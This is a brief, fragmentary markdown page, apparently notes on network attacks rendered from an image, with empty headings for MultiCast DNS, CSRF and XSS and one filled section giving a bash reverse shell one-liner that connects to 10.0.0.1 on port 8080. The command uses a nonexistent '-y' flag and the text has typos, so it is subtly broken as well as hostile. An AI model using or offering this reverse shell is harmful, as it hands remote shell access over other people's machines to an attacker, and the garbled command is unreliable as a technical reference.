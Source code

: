 ## MultiCast DNS

## Cross-Site Request Forgery (CSRF)

## Cross-Site Scripting (XSS)

## Bash Reverse Shell

- in-some version of bash, it's possible to sent a reverse shell to the machine

        bash -y >& /dev/tcp/10.0.0.1/8080 0>&1
